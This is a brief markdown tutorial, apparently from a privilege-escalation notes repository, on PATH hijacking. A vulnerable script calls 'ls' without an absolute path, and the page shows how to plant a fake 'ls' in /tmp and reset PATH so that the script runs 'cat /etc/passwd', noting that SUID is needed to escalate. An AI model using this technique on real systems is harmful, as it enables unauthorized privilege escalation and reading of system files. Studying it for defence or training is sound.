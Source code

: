 # Relative path to run binary

### Table of Contents

- [Command without arguments](#command-without-arguments)
- [Docu](#documentation)

## Command without arguments

**Attention** if you want escalate privileges, the vulnerable script needs at least to have suid permission.

#### Explanation

When a program refere to a binary command without giving the absolute path, you can execute your own program instead of the command.<br>
This program show below refer to this venurability:

```
#!/bin/bash

ls /ect/passwd
```

When bash interpret `ls`, he is trying to find the command located in the `env | grep PATH`.<br>
It try every directory, from letf to right, to check if the executable is located in. If it is, he execute it.
The tricks is to create a new file name "ls" write some code to execute at the emplacement /ect/passwd.

```
#write the command cat inside a ls file located in /tmp
echo cat > /tmp/ls
chmod +x /tmp/ls

#modifie the PATH, to get bash to find and execute your ls file instead of the real one.
PATH=/tmp
```

Now the previous script execute `cat /etc/passwd` instead of `ls /etc/passwd`.

### Documentation

- [SUID redhat](https://www.redhat.com/sysadmin/suid-sgid-sticky-bit)<br>

---

[**:arrow_right_hook: Back home**](/README.md)
